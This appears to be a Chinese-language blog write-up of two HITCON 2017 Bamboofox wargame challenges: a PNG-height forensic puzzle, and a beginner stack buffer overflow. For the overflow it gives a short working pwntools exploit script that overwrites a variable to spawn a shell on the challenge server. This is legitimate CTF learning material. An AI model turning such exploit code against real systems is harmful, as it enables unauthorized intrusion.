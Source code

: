 ```yaml
---
layout: post
title: 'HITCON2017-Bamboofox Wargame'
date: '2017-08-25'
tags: 'bamboofox hitcon2017'
author: 'racterub'
---
```

只解出兩題, 剩下的因為我太廢不會繞保護所以沒解QQ

## Forensic [100]
### Description:
```這張照片應該要有旗子在上面的阿，奇怪?
聽說他被裁剪過，不過好像不是用正規的圖片編輯軟體處理的，真是的...怎麼裁剪的這麼暴力...
拜託了，幫我把旗子找出來，不然...
等等有人來了...快躲起來...
( 瀏覽器上面瀏覽可能是黑的，建議載下來看喔 )
```
題目檔: [Height_is_weird](../../static/file/height_is_weird.zip)

這題題目已經提示要改圖片高度所以在hexeditor中找到png的寬高設定 [png格式說明書](http://www.w3.org/TR/PNG/#11IHDR)
所以把高增加到想要的高度(in HEX)
然後再用pngcheck把CRC重新算一遍再更正就可以囉


## Pwn [100]
### Description:
```
nc bamboofox.cs.nctu.edu.tw 22001

FLAG 在 /home/ctf 底下

歡迎來到 PWN 的世界
恩...這題就是 buffer overflow 的基礎簡單入門題
有哪邊不會可以來我們在 HITCON 的攤位問問題喔
會的人應該 1 分鐘就解完了吧?
恩我廢話好多喔...
總之就是想辦法拿到 FLAG 吧
```
主辦方很佛心地給了src
題目檔: [binary100.c](../../static/file/binary_100.c) [binary100](../../static/file/binary_100)

這題題目很好心的給了原始碼 ~~那就不開gdb了~~

這題題目是考`LIFO+BOF`
在記憶體裡長這樣:
```
+----------------+
|                |
|                |
|      text      |  <-- text's buffer (40byte)
|                |
|                |
| -------------- |
| to_be_overflow |  <-- to_be_overflow's pointer
+----------------+
```
在程式中`to_be_overflow`必須等於`0xABCD1234`才有shell
所以只要在text的buffer塞滿垃圾, 在把`to_be_overflow`蓋掉直接變成`0xABCD1234`就可以取得shell

所以payload會長這樣:
```python
#!/usr/bin/env python

from pwn import *

r = remote('bamboofox.cs.nctu.edu.tw', '22001')

r.sendline('A'*40 + '\x34\x12\xCD\xAB')

r.interactive()
```
